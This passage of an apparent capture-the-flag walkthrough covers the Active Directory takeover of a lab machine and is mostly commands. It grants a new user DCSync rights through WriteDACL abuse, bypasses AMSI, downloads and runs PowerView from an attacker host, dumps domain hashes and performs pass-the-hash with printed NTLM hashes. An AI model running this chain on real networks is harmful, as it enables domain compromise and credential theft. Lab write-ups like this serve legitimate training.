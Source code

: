 Because we have WriteDACL to the domain, you can grant yourself any privilege you want on an object. 

Create a new user. Don't forget to add them to the group we are going to abuse (Exchange Windows Permissions)
```cmd
PS> net user default password123 /add /domain
PS> net group "Exchange Windows Permissions" default /add
PS> net localgroup "Remote Management Users" default /add
```

Then dot source PowerView.ps1. The Bypass-4MSI command gives the ability to evade defender before importing a script.
```cmd
PS> menu
PS> Bypass-4MSI
PS> iex(new-object net.webclient).downloadstring('http://10.10.14.6/PowerView.ps1')
```

Then follow Bloodhounds suggested AV
```cmd
PS> $SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('htb\Default', $SecPassword)
PS> Add-ObjectACL -PrincipalIdentity Default -Credential $Cred -Rights DCSync
```

This'll give you a high privilege account which you can use to further enumerate the Domain Controller
Dump hashes:
```bash
$ impacket-secretsdump -just-dc default:password123@10.10.10.161
```
This gives you the Administrator Hash which allows you to perform Pass-the-Hash
```bash
$ evil-winrm -i 10.10.10.161 -u Adminstrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

You can do the same thing with impacket-psexec
```bash
$ impacket-psexec administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```